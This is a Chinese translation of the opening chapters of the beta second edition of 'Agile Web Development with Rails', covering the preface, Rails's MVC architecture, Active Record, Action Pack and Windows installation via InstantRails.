# Rails 敏捷 Web 开发（第二版）

您正在阅读的本书仍在开发中。作为一项实验，我们提前发行了这本副本。这样您就能在内容最终定稿前数月获取这些内容，而我们也能获得反馈以使本书更加完善。这个想法旨在实现双赢！

本书的编写方式有别于我们的其他测试版书籍。由于我们是在现有书籍的基础上制作第二版，因此我们决定在原书基础上进行修改。我们从内部更新本书。为了便于跟踪进展，包含大量新内容的章节标题将显示为红色，而与第一版相比基本未变的章节标题则显示为灰色。

请注意：本书尚未经过完整的技术编辑，因此可能会包含错误。也未经文字校对，可能满是拼写错误。此外，由于未进行排版，您可能会发现糟糕的分页、过长的行、不正确的连字符以及其他在成品书中不应出现的丑陋问题。如果您按照我们的指示操作，期望创建一个`Rails`应用，最终却得到了一个形状奇特的农具，我们对此无法承担责任。尽管如此，我们相信您仍会喜欢它！

当本书最终完成时，我们会向您发送完整更新的版本。与此同时，请将您对本书的反馈发送至`http://books.pragprog.com/titles/rails2/errata`（或点击每页底部的勘误链接），我们将不胜感激。

感谢您购买本书。

Dave Thomas

- 18.8 缓存，第一部分
- 19.8 表单助手
- 19.10 缓存，第二部分

> 每一天，在每一个方面，我都变得越来越好。
>
> ▶ 埃米尔·库埃

## 第二版前言

距我宣布本书第一版出版，至今已近一年。在书出版之前，很明显`Rails`会变得非常重要，但我认为当时没有人意识到这个框架最终会变得如此意义重大。

在随后的一年里，`Rails`变得日益强大。它被用作无数新潮、令人兴奋的网站的基础。同样重要的是，大型企业（其中许多都是家喻户晓的名字）开始将`Rails`用于对内和对外的应用程序。`Rails`也获得了广泛赞誉。`Rails`的创建者 David Heinemeier Hansson 在 OSCON 大会上被评为年度黑客。`Rails`获得了 Jolt 大奖最佳 Web 开发工具奖，而本书第一版也获得了 Jolt 大奖最佳技术书籍奖。

但`Rails`核心团队并没有安于现状，坐享赞誉。相反，他们埋头苦干，添加新功能和新设施。在第一版上市几个月后发布的`Rails 1.0`版增加了诸如数据库迁移支持以及更新的 Ajax 集成等功能。2006 年春季发布的`Rails 1.1`版是一个重磅发布，包含了超过 500 处改动。其中许多改动意义深远。例如，`RJS`模板改变了开发者编写启用 Ajax 应用程序的方式，而集成测试框架则改变了这些应用程序的测试方式。团队投入了大量工作来扩展和增强`Active Record`，现在它包括了多态关联、关联模型、更好的缓存等等。

现在是时候更新本书以反映所有这些优点了。而且，在我开始修改时，我意识到其他方面也发生了变化。自第一版发布以来，我们所有人都积累了更多关于如何编写`Rails`应用程序的经验。一些当初看起来很棒的想法在实践中效果并不好，而其他一些最初看起来边缘化的功能后来被证明很重要。这些新的实践意味着本书的修改远比我预期的要深入。我不再只是对文本进行表面的修改，添加一些新的 API。相反，我发现自己重写了内容。原始版本中的一些章节被删除了，全新的章节被添加了进来。其余许多章节被完全重写。因此，很明显我们看到的将是第二版——本质上是一本新书。

在第一版仍然是世界上最畅销的编程书籍之一的时候发布第二版，似乎有些奇怪。但`Rails`已经改变了，我们需要让这本书也随之改变。

享受阅读吧！

Dave Thomas

2006 年 5 月

# 第 1 章 简介

`Ruby on Rails`是一个使 Web 应用程序的开发、部署和维护变得更加容易的框架。在其初始发布后的 12 个月内，`Rails`从一个不为人知的玩具变成了一个全球性的现象。它获得了奖项，更重要的是，它已成为实现各种所谓 Web 2.0 应用程序的首选框架。它不仅仅是硬核黑客的时尚选择：许多跨国公司都在使用`Rails`来创建他们的 Web 应用程序。

为什么会这样？似乎有很多原因。

首先，似乎有大量的开发者对他们用来创建 Web 应用程序的技术感到沮丧。无论他们是使用 Java、PHP 还是`.NET`——人们越来越觉得事情就是太他妈难了。然后，突然间，`Rails`出现了，而且`Rails`更容易。

但仅仅“容易”是不够的。我们谈论的是专业开发者编写真实的网站。他们希望感觉到他们正在开发的应用程序经得起时间的考验——它们是使用现代的、专业的技术设计和实现的。因此，这些开发者深入研究了`Rails`，发现它不仅仅是一个快速搭建网站的工具。

例如，所有`Rails`应用程序都是使用模型-视图-控制器（`MVC`）架构实现的。Java 开发者习惯了像`Tapestry`和`Struts`这样基于`MVC`的框架。但`Rails`更进一步：当你在`Rails`中开发时，代码的每一部分都有其位置，并且你应用程序的所有部分都以标准的方式进行交互。就好像你一开始就有了一个已经准备好的应用程序骨架。

专业程序员会编写测试。同样，`Rails`做到了。所有`Rails`应用程序都内置了测试支持。当你向代码添加功能时，`Rails`会自动为该功能创建测试存根。该框架使测试应用程序变得很容易，因此`Rails`应用程序往往经过了充分的测试。

`Rails`应用程序是用`Ruby`编写的，这是一种现代的、面向对象的脚本语言。`Ruby`简洁而不晦涩难懂——你可以用`Ruby`代码自然、清晰地表达想法。这使得程序易于编写，并且（同样重要的是）在几个月后仍然易于阅读。

`Rails`将`Ruby`发挥到了极致，以新颖的方式扩展它，使程序员的生活更轻松。这使得我们的程序更短、更具可读性。它还允许我们通常在外部配置文件中执行的任务改为在代码库内完成。这使得查看正在发生的事情变得容易得多。下面的代码定义了项目模型类。现在不用担心细节。相反，只需思考几行代码中表达了多少信息。

```ruby
class Project < ActiveRecord::Base
  belongs_to         :portfolio
  has_one            :project_manager
  has_many           :milestones
  has_many           :deliverables, :through => :milestones

  validates_presence_of    :name, :description
  validates_acceptance_of  :non_disclosure_agreement
  validates_uniqueness_of  :short_name
end
```

开发者接触`Rails`时发现的另一件事是其强大的哲学基础。`Rails`的设计由两个关键概念驱动：`DRY`和约定优于配置。`DRY`代表不要重复你自己（Don't Repeat Yourself）——系统中的每一条知识都应该只在一个地方表达。`Rails`利用`Ruby`的强大功能实现了这一点。你会发现`Rails`应用程序中重复很少；你在需要的地方——一个通常由`MVC`架构的约定所建议的地方——表达你需要表达的内容，然后继续前进。对于习惯了其他 Web 框架的程序员来说，简单的模式更改可能涉及半打甚至更多的代码更改，这是一个启示。

约定优于配置也至关重要。这意味着`Rails`为整合你的应用程序的几乎每个方面都提供了合理的默认值。遵循这些约定，你就可以编写一个`Rails`应用程序，其代码量甚至少于典型 Java Web 应用在 XML 配置中所使用的代码。如果您需要覆盖默认约定，`Rails`也能轻松做到。

转向`Rails`的开发者们还发现了另一些事情。`Rails`是新兴的，其核心开发团队深谙新一代 Web 技术。`Rails`并非在追赶新兴的 Web 事实标准：它正在参与定义这些标准。`Rails`让开发者能轻松地将 Ajax 和`RESTful`接口等技术整合到代码中：支持是内置的。

开发者们同样关心部署。他们发现，使用`Rails`，您只需一条命令就能将应用的后续版本部署到任意数量的服务器上（并且如果某个版本不够完美，也能同样轻松地回滚）。

`Rails`是从一个真实的商业应用中提炼出来的。事实证明，创建框架的最佳方式是在特定应用中找出核心主题，然后将它们封装在一个通用的代码基础中。当您开发自己的`Rails`应用时，您实际上已经站在了一个优秀应用半成品的基础上。

但`Rails`还有些别的东西——很难描述。不知何故，它就是感觉很对。当然，在您自己编写一些`Rails`应用之前（这应该发生在接下来的 45 分钟左右……），您只能相信我们的话。本书的目的就在于此。

## 1.1 Rails 是敏捷的

本书的书名是 *Agile Web Development with Rails*（《敏捷 Web 开发与 Rails》）。那么，您可能会惊讶地发现，我们并没有明确的章节来讲述如何将 X、Y、Z 敏捷实践应用于`Rails`编码。

原因既简单又微妙。敏捷性是`Rails`架构的一部分。

让我们从敏捷宣言（Agile Manifesto）所表达的四个偏好集合来审视其价值观。<sup>1</sup> 敏捷开发倾向于：

- 个体和互动 高于 流程和工具
- 可工作的软件 高于 详尽的文档
- 客户合作 高于 合同谈判
- 响应变化 高于 遵循计划

`Rails`完全关乎个体和互动。没有笨重的工具集，没有复杂的配置，没有繁琐的流程。只有小组的开发者、他们喜爱的编辑器以及一段段`Ruby`代码。这带来了透明性；开发者的所作所为会立刻反映在客户看到的东西上。这本质上是一个交互式的过程。

`Rails`并不排斥文档。`Rails`能轻而易举地为整个代码库创建 HTML 文档。但`Rails`开发过程并非由文档驱动。您不会在`Rails`项目的核心发现 500 页的规格说明。相反，您会发现一群用户和开发者共同探索他们的需求以及满足需求的可能方式。随着开发者和用户对他们正在解决的问题越来越熟悉，您会看到解决方案在不断变化。您会发现一个能在开发周期早期就交付可工作软件的框架。这个软件可能边缘粗糙，但它让用户开始窥见您将要交付的东西。

通过这种方式，`Rails`鼓励客户合作。当客户看到`Rails`项目能如此迅速地响应变化时，他们开始相信团队能够交付所需的东西，而不仅仅是被要求的东西。对抗被“如果……会怎样？”的讨论所取代。

这一切都归结于响应变化的能力。`Rails`对`DRY`原则近乎偏执的遵循意味着，对`Rails`应用的修改所影响的代码量，比在其他框架中进行同样修改要少得多。而且由于`Rails`应用是用`Ruby`编写的，概念可以被精确而简洁地表达，因此修改往往是局部化的且易于编写。对单元测试和功能测试的深度强调，以及测试夹具和桩的支持，为开发者在进行这些修改时提供了所需的安全网。有了良好的测试集，修改就没那么令人紧张了。

我们没有不断地试图将`Rails`流程与敏捷原则联系起来，而是决定让框架自己说话。当您阅读教程部分时，试着想象自己以这种方式开发 Web 应用：与您的客户并肩工作，共同确定优先级和问题解决方案。然后，当您阅读后面更深入的参考资料时，看看`Rails`的底层结构如何能让您更快、更少仪式地满足客户需求。

关于敏捷性和`Rails`还有最后一点：虽然提及这一点可能不太专业，但想想编码会有多有趣。

## 1.2 如何阅读本书

本书的前两部分是`Rails`背后概念的介绍和一个扩展示例——我们构建了一个简单的在线商店。如果您想感受`Rails`编程，这是起点。事实上，大多数人似乎都很享受跟着书一起构建应用的过程。如果您不想输入那么多，可以走捷径，下载压缩的`tar`归档文件或`zip`文件格式的源代码。<sup>2</sup>

本书的第三部分，从第 222 页开始，详细介绍了`Rails`的所有功能和设施。您将在这里了解如何使用各种`Rails`组件，以及如何高效、安全地部署您的`Rails`应用。

在此过程中，您将看到我们采用的各种约定。

### 活代码

我们展示的大部分代码片段都来自完整的、可运行的示例，您可以下载它们。为了帮助您查找，如果某个代码清单可以在下载包中找到，那么代码片段上方会有一个栏（就像这里的一样）。

```ruby
class SayController < ApplicationController
  def hello
  end
end
```

这包含了下载包中代码的路径。如果您阅读本书的 PDF 版本，并且您的 PDF 查看器支持超链接，您可以单击该栏，代码应该会出现在浏览器窗口中。某些浏览器（如 Safari）可能会错误地将某些模板解释为 HTML。如果发生这种情况，请查看页面源代码以查看真正的源代码。

### Ruby 提示

虽然编写`Rails`应用需要了解`Ruby`，但我们意识到许多阅读本书的人会同时学习`Ruby`和`Rails`。附录 A，位于第 529 页，是`Ruby`语言的（非常）简要介绍。当我们首次使用`Ruby`特定的构造时，我们会交叉引用到该附录。例如，本段包含了一个随意的使用`:name`的`Ruby`符号。在页边，您会看到一个指示，说明符号在第 531 页解释。如果您不了解`Ruby`，或者需要快速复习，您可能想先去阅读第 529 页的附录 A。本书中有大量代码……

<sup>2</sup> `http://www.pragmaticprogrammer.com/titles/rails2/code.html` 提供了下载链接。

> **David 如是说……**
>
> 您时不时会遇到 *David 如是说……* 的侧边栏。这里，David Heinemeier Hansson 会告诉您`Rails`某些特定方面的真正内涵——原理、技巧、推荐等。作为`Rails`的发明者，如果您想成为`Rails`专家，这些部分必须阅读。
>
> **Joe 问道……**
>
> 神话般的开发者 Joe 有时会冒出来，询问我们在正文中讨论的一些内容。我们试图在讲解过程中回答这些问题。

本书并非`Rails`的参考手册。我们通过示例或叙述展示了大部分模块及其方法，但我们没有数百页的 API 列表。这有一个很好的理由——每当您安装`Rails`时，您都能获得该文档，而且它保证比本书中的材料更新。如果您使用`RubyGems`安装`Rails`（我们推荐这样做），只需启动 Gem 文档服务器（使用命令`gem_server`），然后将浏览器指向`http://localhost:8808`，即可访问所有`Rails API`。（第 30 页的侧边栏描述了安装完整 API 文档的另一种方式。）

## Rails 版本

本书记录的是`Rails V1.1`，该版本于 2006 年 4 月发布。

## 变更日志

自本书第一版付印以来，应用于`Rails`的更改可能有上千条。全部列出并没有太大意义。但是，我想强调对本书所做的主要更改。

## 新的 Depot 应用

我们的示例应用`Depot`已被完全重写。

- 它现在使用迁移（migrations），而不是数据定义语言（DDL）。

### 测试

第一版测试章节中的某些代码因`Rails 1.0`版本的发布而失效。第二版中的该章节已完全重写。现在它假定使用事务性文本夹具（transactional text fixtures），并已不再使用实例化的夹具数据。

更重要的是，本章现在阐述了新式的集成测试。

缺失：待补充

# 第一部分：入门

# 第 2 章 Rails 应用程序的架构

`Rails`有趣的一点在于，它对你如何构建 Web 应用程序施加了一些相当严格的限制。令人惊讶的是，这些限制反而让创建应用程序变得更容易——容易得多。让我们看看这是为什么。

## 2.1 模型、视图和控制器

早在 1979 年，Trygve Reenskaug 提出了一种用于开发交互式应用程序的新架构。在他的设计中，应用程序被分解为三种类型的组件：模型、视图和控制器。

模型负责维护应用程序的状态。有时这种状态是临时的，仅持续与用户的几次交互。有时状态是永久性的，将被存储在应用程序外部，通常是在数据库中。

模型不仅仅是数据；它还强制执行适用于该数据的所有业务规则。例如，如果折扣不应应用于低于 20 美元的订单，模型将强制执行此约束。这很有道理；通过将这些业务规则的实现放在模型中，我们确保应用程序中的其他任何部分都无法使我们的数据无效。模型既充当守门人，也充当数据存储。

视图负责生成用户界面，通常基于模型中的数据。例如，在线商店会有一个产品列表，显示在目录屏幕上。该列表可以通过模型访问，但由视图从模型中获取列表并为其最终用户进行格式化。虽然视图可能向用户提供各种输入数据的方式，但视图本身从不处理传入的数据。数据一旦显示，视图的工作就完成了。很可能存在多个视图访问相同的模型数据，通常是为了不同的目的。在在线商店中，会有一个视图在目录页面上显示产品信息，而管理员则使用另一组视图来添加和编辑产品。

控制器协调应用程序。控制器从外部世界接收事件（通常是用户输入），与模型交互，并向用户显示适当的视图。

这三者——模型、视图和控制器——形成了一个称为`MVC`的架构。图 2.1 以抽象形式展示了`MVC`。

`MVC`最初是为传统的 GUI 应用程序设计的，开发者发现关注点分离导致了更少的耦合，这反过来又使代码更易于编写和维护。每个概念或操作都在一个众所周知的地方表达出来。使用`MVC`就像建造一座钢梁已经就位的摩天大楼——在已有结构上悬挂其余部分要容易得多。

在软件世界中，我们常常在匆忙奔向未来的同时忽略了过去的好主意。当开发者最初开始制作 Web 应用程序时，他们又回到了编写将表示、数据库访问、业务逻辑和事件处理混合在一个大代码块中的整体式程序。但过去的思想慢慢渗透回来，人们开始尝试将反映 20 年前`MVC`思想的架构应用于 Web 应用程序。结果诞生了`WebObjects`、`Struts`和`JavaServer Faces`等框架。所有这些框架都基于（忠实程度不同）`MVC`的理念。

`Ruby on Rails`也是一个`MVC`框架。`Rails`为你的应用程序强制执行一种结构，你将模型、视图和控制器作为独立的功能块来开发——它在你的程序执行时将它们全部编织在一起。`Rails`的乐趣之一在于，这种编织过程基于使用智能默认值，因此你通常不需要编写任何外部配置元数据就能让一切正常工作。这是`Rails`哲学中“约定优于配置”的一个例子。


在 Rails 应用程序中，传入的请求首先被发送到路由器，路由器计算出请求应该被发送到应用程序中的哪个位置以及如何解析请求本身。最终，此阶段会在控制器代码中的某个位置标识出一个特定的方法（在 Rails 术语中称为`action`）。该操作可能会查看请求本身中的数据，可能会与模型交互，也可能导致调用其他操作。最终，该操作为视图准备信息，视图向用户渲染内容。

下一页的图`2.2`展示了 Rails 如何处理传入的请求。在此示例中，假设应用程序之前已显示产品目录页面，用户刚刚单击了其中一个产品旁边的`Add To Cart`按钮。此按钮通过 URL [http://my.url/store/add_to_cart/123](http://my.url/store/add_to_cart/123) 链接回我们的应用程序，其中 123 是我们为所选产品分配的内部 ID。

路由组件接收传入的请求并立即将其分解。在这个简单的例子中，它将路径的第一部分`store`作为控制器的名称，第二部分`add_to_cart`作为操作的名称。路径的最后一部分 123 按惯例被提取到一个名为`id`的内部参数中。所有这些分析的结果是，路由器知道它必须调用控制器类`StoreController`中的`add_to_cart()`方法（我们将在第`233`页讨论命名约定）。

^[1] 我们将在本书后面介绍 Rails URL 的格式。然而，这里值得指出的是，让 URL 执行`add_to_cart`这样的操作可能是危险的。更多详情请参见第`397`页第`18.9`节，*GET 请求的问题*。

**图 2.2：Rails 和 MVC**

`add_to_cart()`方法处理用户请求。在这种情况下，它找到当前用户的购物车（这是一个由模型管理的对象）。它还要求模型查找产品 123 的信息。然后它告诉购物车将该产品添加到自身中。（看看模型是如何被用来跟踪所有业务数据的；控制器告诉它`做什么`，而模型知道`如何做`。）

现在购物车中包含了新产品，我们可以将其显示给用户。控制器安排事情，使视图能够访问来自模型的购物车对象，并调用视图代码。在 Rails 中，这种调用通常是隐式的；约定再次帮助将特定视图与给定操作关联起来。

MVC Web 应用程序就是如此。通过遵循一组约定并适当地划分功能，你将发现你的代码变得更容易处理，应用程序也变得更容易扩展和维护。这似乎是一个很好的权衡。

如果 MVC 只是关于以特定方式划分代码的问题，你可能想知道为什么你需要像 Ruby on Rails 这样的框架。答案非常简单：Rails 为你处理所有底层的杂务——所有那些自己处理起来费时费力的混乱细节——让你能够专注于应用程序的核心功能。让我们看看它是如何做到的……

## 2.2 Active Record：Rails 的模型支持

通常，我们希望 Web 应用程序能将其信息存储在关系型数据库中。订单录入系统会将订单、订单项和客户详情存储在数据库表中。即使是通常使用非结构化文本的应用程序，如博客和新闻网站，也常常使用数据库作为其后端数据存储。

尽管从你使用的 SQL² 来看可能不那么明显，但关系型数据库实际上是以数学集合理论为基础设计的。虽然这从概念角度来看很好，但它使得关系型数据库与面向对象编程语言的结合变得困难。对象关乎数据和操作，而数据库关乎值的集合。用关系型术语容易表达的东西，在面向对象系统中有时难以编码。反之亦然。

随着时间的推移，人们已经研究出了协调企业数据的关系型视图和面向对象视图的方法。让我们看看两种不同的方法。一种是围绕数据库来组织你的程序；另一种是围绕你的程序来组织数据库。

### 以数据库为中心的编程

最早针对关系型数据库编程的人使用的是像 C 和 COBOL 这样的过程式语言。这些人通常将 SQL 直接嵌入到他们的代码中，要么作为字符串，要么使用预处理器将其源代码中的 SQL 转换为对数据库引擎的低级调用。

这种集成意味着将数据库逻辑与整体应用逻辑交织在一起变得很自然。一个想要遍历订单并更新每个订单销售税的开发者可能会写出极其难看的代码，比如：

```sql
EXEC SQL BEGIN DECLARE SECTION;
    int id;
    float amount;
EXEC SQL END DECLARE SECTION;

EXEC SQL DECLARE c1 AS CURSOR FOR
select id, amount from orders;

while (1) {
    float tax;

    EXEC SQL WHENEVER NOT FOUND DO break;

    EXEC SQL FETCH c1 INTO :id, :amount;

    tax = calc_sales_tax(amount)

    EXEC SQL UPDATE orders set tax = :tax where id = :id;
}
EXEC SQL CLOSE c1;
EXEC SQL COMMIT WORK;
```

很吓人，对吧？别担心。我们不会做任何这类事情，尽管这种编程风格在 Perl 和 PHP 等脚本语言中很常见。在 Ruby 中也可以使用。例如，我们可以使用 Ruby 的 DBI 库生成类似的代码。（与上一个例子一样，这个例子也没有错误检查。）

```ruby
def update_sales_tax
    update = @db.prepare("update orders set tax=? where id=?")
    @db.select_all("select id, amount from orders") do |id, amount|
        tax = calc_sales_tax(amount)
        update.execute(tax, id)
    end
end
```

这种方法简洁明了，确实被广泛使用。对于小型应用程序来说，这似乎是一个理想的解决方案。但是，存在一个问题。像这样混合业务逻辑和数据库访问，可能会使应用程序在未来难以维护和扩展。而且，你仍然需要了解 SQL 才能开始你的应用程序。

假设，例如，我们开明的州政府通过了一项新法律，要求我们记录计算销售税的日期和时间。这没问题，我们想。我们只需要在循环中获取当前时间，在 SQL UPDATE 语句中添加一列，并将时间传递给`execute()`调用。

但是，如果我们在应用程序中的许多不同地方设置销售税列，会发生什么？现在我们需要遍历并找到所有这些地方，逐一更新。我们有了重复的代码，并且（如果我们遗漏了设置该列的某个地方）我们就有了一个错误源。

在常规编程中，面向对象已经教会我们封装可以解决这类问题。我们会将与订单相关的所有内容封装在一个类中；当法规改变时，我们只需更新一个地方。

人们将这些想法扩展到了数据库编程。其基本前提极其简单。我们将对数据库的访问封装在一层类之后。我们应用程序的其余部分使用这些类及其对象——它从不直接与数据库交互。这样，我们就将所有模式特定的东西封装到了一个单独的层中，并将我们的应用程序代码与数据库访问的低级细节解耦。在我们销售税变更的案例中，我们只需更改封装`orders`表的类，以便在销售税更改时更新时间戳。

在实践中，这个概念比看起来更难实现。现实世界中的数据库表是相互关联的（例如，一个订单可能有多个订单项），我们希望在我们的对象中反映这一点：`order`对象应该包含一个订单项对象的集合。但我们随后开始遇到对象导航、性能和数据一致性的问题。面对这些复杂性，行业做了它惯常做的事：发明了一个三字母缩写词：ORM，对象/关系映射。Rails 使用 ORM。

### 对象/关系映射

ORM 库将数据库表映射到类。如果数据库有一个名为`orders`的表，我们的程序将有一个名为`Order`的类。此表中的行对应于该类的对象——一个特定的订单表示为`Order`类的一个对象。在该对象内部，属性用于获取和设置各个列。我们的`Order`对象有方法来获取和设置金额、销售税等。

此外，封装我们数据库表的 Rails 类提供了一组类级别的方法来执行表级别的操作。例如，我们可能需要查找具有特定`id`的订单。这被实现为一个类方法，返回相应的`Order`对象。在 Ruby 代码中，这可能看起来像：

```ruby
order = Order.find(1)
puts "Order #{order.customer_id}, amount=#{order.amount}"
```

有时这些类级别的方法返回对象的集合。

```ruby
Order.find(:all, :conditions => "name='dave'") do |order|
  puts order.amount
end
```

最后，对应于表中各个行的对象有操作该行的方法。最广泛使用的可能是`save()`，将行保存回数据库的操作。

```ruby
Order.find(:all, :conditions => "name='dave'") do |order|
  order.discount = 0.5
  order.save
end
```

因此，ORM 层将表映射到类，将行映射到对象，将列映射到这些对象的属性。类方法用于执行表级别的操作，而实例方法执行对各个行的操作。

在典型的 ORM 库中，你需要提供配置数据来指定数据库中的事物和程序中的事物之间的映射。使用这些 ORM 工具的程序员经常发现自己创建和维护大量的 XML 配置文件。

### Active Record

Active Record 是 Rails 附带的 ORM 层。它紧密遵循标准的 ORM 模型：表映射到类，行映射到对象，列映射到对象属性。它在配置方式上与大多数其他 ORM 库不同。通过依赖约定并从合理的默认值开始，Active Record 最小化了开发人员执行的配置量。为了说明这一点，这里是一个使用 Active Record 封装我们`orders`表的程序。

```ruby
require 'active_record'

class Order < ActiveRecord::Base
end

order = Order.find(1)
order.discount = 0.5
order.save
```

这段代码使用新的`Order`类来获取 id 为 1 的订单并修改折扣。（我们现在省略了创建数据库连接的代码。）Active Record 让我们摆脱了处理底层数据库的麻烦，使我们能够自由地专注于业务逻辑。

但 Active Record 做的不止这些。正如你将在我们开发购物车应用程序时看到的，从第 53 页开始。Active Record 与 Rails 框架的其余部分无缝集成。如果一个 Web 表单包含与业务对象相关的数据，Active Record 可以将其提取到我们的

Active Record 是 Rails MVC 架构坚实的模型基础。这就是为什么我们用整整两章来介绍它，从第`249`页开始。

## 2.3 Action Pack：视图与控制器

细想一下，MVC 中的视图和控制器部分关系相当密切。控制器向视图提供数据，同时接收来自视图生成的页面的事件。由于这些交互，Rails 中对视图和控制器的支持被捆绑在一个名为`Action Pack`的组件中。

不要被误导，以为你的应用程序的视图代码和控制器代码会因为 Action Pack 是一个组件而混在一起。恰恰相反；Rails 为你提供了所需的分离，使你能够清晰地划分控制逻辑和表示逻辑来编写 Web 应用程序。

### 视图支持

在 Rails 中，视图负责创建要在浏览器中显示的页面的全部或部分内容。¹ 最简单的视图就是一段显示固定文本的 HTML 代码。更常见的情况是，你会想要包含由控制器中`action`方法创建的动态内容。

在 Rails 中，动态内容由模板生成，模板有三种形式。最常见的模板方案称为`rhtml`，它使用名为 ERb（或 Embedded Ruby）的 Ruby 工具，在视图的 HTML 中嵌入 Ruby 代码片段。² 这种方法非常灵活，但纯粹主义者有时会抱怨这违反了 MVC 的精神。通过在视图中嵌入代码，我们冒着添加本应属于模型或控制器的逻辑的风险。这种抱怨在很大程度上是站不住脚的：即使在最初的 MVC 架构中，视图也包含活动代码。保持清晰的关注点分离是开发者工作的一部分。（我们将在第`403`页的第 19.3 节 *RHTML 模板* 中介绍 HTML 模板。）

¹ 或者一个 XML 响应、一封电子邮件，或者……关键点在于，视图负责生成返回给用户的响应。

² 这种方法对于使用 PHP 或 Java JSP 技术的 Web 开发者来说可能很熟悉。

第二种模板方案称为`rxml`，它允许你使用 Ruby 代码构建 XML 文档——生成的 XML 结构将自动遵循代码的结构。我们从第`402`页开始讨论 builder 模板。

Rails 还提供了`rjs`视图。这些视图允许你在服务器上创建 JavaScript 片段，然后在浏览器中执行。这对于创建动态的 Ajax 界面非常有用。

### 还有控制器！

Rails 控制器是应用程序的逻辑中心。它协调用户、视图和模型之间的交互。然而，Rails 在幕后处理了大部分交互；你编写的代码专注于应用程序级别的功能。这使得 Rails 控制器代码非常易于开发和维护。

控制器还承载着许多重要的辅助服务。

- 它负责将外部请求路由到内部`action`。它能极好地处理用户友好的 URL。
- 它管理缓存，这可以使应用程序的性能获得数量级的提升。
- 它管理 helper 模块，这些模块扩展了视图模板的功能，而不会使其代码变得臃肿。
- 它管理会话，给用户一种与我们的应用程序持续交互的印象。

Rails 包含很多内容。与其逐个组件地去研究，不如让我们卷起袖子，编写几个能工作的应用程序。在下一章，我们将安装 Rails。之后，我们将编写一些简单的东西，以确保所有组件都已正确安装。在第`5`章，第`53`页的 *Depot 应用程序* 中，我们将开始编写一些更具实质性的东西——一个简单的在线商店应用程序。

## 第 3 章：安装 Rails

通常这类书籍会缓慢推进，从简单的内容开始，逐渐过渡到高级材料。其理念是让读者在书店浏览时觉得这很容易，等他们把书带回家后，才让他们意识到他们所购买内容的庞大。

我们不是那种书。因为 Rails 如此简单，结果这很可能是本书中最难的一章。没错——这就是那个“如何在你的计算机上运行 Rails 环境”的章节。

但别让这吓退你；它真的没那么难。只是你在你的机器上安装了一个专业级的 Web 层，这涉及许多组件。而且，由于操作系统在支持 Web 服务器等方面的方式不同，你会发现这一章将为 Windows、Mac 和 Unix 用户提供不同的部分。（别担心。一旦我们过了这一章，所有操作系统的依赖性就都过去了。）

Mike Clark 和 Dave Thomas 运营着一系列 Rails Studios，³ 人们在那里学习从未使用过 Rails 或 Ruby 的人编写应用程序。本章中的建议基于我们让这些人尽可能快速、无痛地入门运行的经验。

另外，你会注意到本节参考了在线资源。这是因为世界变化很快，任何印在书中的底层说明都可能很快过时。

³ <http://pragmaticstudio.com>

### 3.1 你的购物清单

要在你的系统上运行 Rails，你需要以下内容：

- 一个 Ruby 解释器。Rails 是用 Ruby 编写的，你也将用 Ruby 编写你的应用程序。Rails 团队现在推荐使用 Ruby 1.8.4 版本。
- Ruby on Rails。本书是使用 Rails 1.1.2 版本编写的。
- 一个数据库。我们在本书中使用 MySQL 5.0.18 版本。
- 一些库。

对于开发机器来说，这基本上就是我们需要的全部（除了一个编辑器，我们会单独讨论编辑器）。然而，如果你要部署你的应用程序，你还需要安装一个生产环境的 Web 服务器（至少），以及一些支持代码让 Rails 高效运行。我们有一整章专门介绍这个，从第`524`页开始，所以这里就不多说了。

那么，如何安装所有这些东西呢？这取决于你的操作系统……

### 3.2 在 Windows 上安装

如果你使用 Windows 进行开发，那么你很幸运，因为 Curt Hibbs 已经为你准备好了入门 Rails 所需的所有内容。*InstantRails* 是一个包含 Ruby、Rails、MySQL 以及让它们协同工作所需的所有组件的单个下载包。它甚至包含一个 Apache Web 服务器和支持代码，让你可以部署高性能的 Web 应用程序。

1. 创建一个文件夹来存放 InstantRails 安装。文件夹的路径不能包含任何空格（所以`C:\Program Files`是一个糟糕的选择）。
2. 访问 InstantRails 网站⁴ 并按照链接下载最新的`.zip`文件。（大约 50MB，所以如果你的连接较慢，下载前可以泡杯茶。）将其放入你在步骤 1 创建的目录中。
3. 如果你的系统没有自动解压缩，你需要手动解压这个压缩包。

⁴ <http://instantrails.rubyforge.org/wiki/wiki.pl>



4. 进入 InstantRails 目录，通过双击 InstantRails 图标（那个大的红色 I）启动它。
   - 如果你看到一个弹出窗口询问是否可以重新生成配置文件，请说 **OK**。
   - 如果你看到一个安全警告窗口说防火墙阻止了 Apache，好吧……我们不会告诉你是否要阻止或解除阻止它。为了本书的目的，我们不会使用 Apache，所以没关系。最安全的做法是选择 **保持阻止**。如果你知道自己在做什么，并且你的机器上没有运行 IIS，你可以解除阻止该端口，以后再使用 Apache。


你应该会看到一个小小的 InstantRails 窗口出现。你可以用它来监控和控制 Rails 应用程序。然而，我们会比这稍微深入一点，所以我们将使用一个控制台窗口。要启动它，点击 InstantRails 窗口左上角的 I 按钮（该按钮是一个黑色的 I，右下角有一个红点）。从菜单中，选择 Rails Applications…，然后选择 Open Ruby Console Window。你应该会看到一个命令窗口弹出，并且你会位于`rails_apps`目录中，如图**3.1**所示。你可以通过分别输入命令`ruby -v`和`rails -v`来验证你的 Ruby 和 Rails 版本。

此刻，你已经启动并运行起来了。但是，在你跳到下一章开头之前（毕竟，你在这里已经完成了），有两件重要的事情需要了解。

首先，也是最重要的，每当你想在控制台窗口中输入命令时，*你必须使用从 InstantRails 菜单启动的控制台*。遵循我们上面使用的相同步骤（点击 I 图标等）。如果你打开一个普通的 Windows 命令提示符，东西就是不工作。<sup>3</sup>

其次，你随时可以通过打开 InstantRails 控制台并输入以下命令，将你的 Rails 版本升级到最新版：

```text
C:\rails_apps> gem update rails --include-dependencies
```

好的。Windows 用户，你们完成了：你可以直接跳到第**24**页。我们那里见。

## 3.3 在 Mac OS X 上安装

